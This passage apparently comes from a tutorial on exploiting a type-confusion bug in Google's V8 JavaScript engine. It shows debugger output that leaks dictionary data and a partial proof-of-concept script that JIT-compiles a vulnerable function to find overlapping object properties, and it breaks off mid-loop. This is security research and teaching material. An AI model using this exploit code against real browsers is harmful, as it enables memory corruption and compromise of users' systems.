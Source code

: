 When we run the updated script in d8, we should get results which are similar the following:

```
C:\dev\v8\v8\out\x64.debug>d8 C:\Users\User\Desktop\poc.js
[+] Finding Overlapping Properties
,-1,-2,-3,-4,-5,-6,-7,-8,-9,-10,-11,-12,-13,-14,-15,-16,-17,-18,-19,-20,-21,-22,-23,-24,-25,-26,-27,-28,-29,-30,-31
,32,0,64,33,0,,,,p13,-13,3824,,,,p17,-17,4848,inline,1234,448,,,,p29,-29,7920,,,,p19,-19
```

Great! Our type-confusion works and we are able to leak data from the dictionary. From the output, we can see that we have a few overlapping properties, such as p10 overlapping with p13 (note the negative values).

Now that we have confirmed that this code works and we have overlapping properties, we can modify the script to enumerate through the results and choose an overlapping property whose value is less than 0 and greater than -32. Also, let's remove properties that overlap themselves.

The updated code will look like the following:

```js
// Function that creates an object with one in-line and 32 out-of-line properties
function makeObj() {
    let obj = {inline: 1234};
    for (let i = 1; i < 32; i++) {
        Object.defineProperty(obj, 'p' + i, {
            writable: true,
            value: -i
        });
    }
    return obj;
}

// Function that finds a pair of properties where p1 is stored at the same offset
// in the FixedArray as p2 in the NameDictionary
let p1, p2;

function findOverlappingProperties() {
    // Create an array of all 32 property names such as p1..p32
    let pNames = [];
    for (let i = 0; i < 32; i++) {
        pNames[i] = 'p' + i;
    }

    // Create eval of our vuln function that will generate code during runtime
    eval(`
    function vuln(obj) {
      // Access Property inline of obj, forcing a CheckMap operation
      obj.inline;
      // Force a Map Transition via our side-effect
      this.Object.create(obj);
      // Trigger our type-confusion by accessing out-of-bound properties
      ${pNames.map((p) => `let ${p} = obj.${p};`).join('\n')}
      return [${pNames.join(', ')}];
    }
  `)

    // JIT code to trigger vuln
    for (let i = 0; i < 10000; i++) {
        // Create Object and pass it to Vuln function
        let res = vuln(makeObj());
        // Look for overlapping properties in results
        for (let i = 1; i < res.length; i++) {
            // If i is not the same value, and res[i] is between -32 and 0, it overlaps
            if (i !== -res[i] && res[i] < 0 && res[i] > -32) {
                [p1, p2] = [i, -res[i]];
```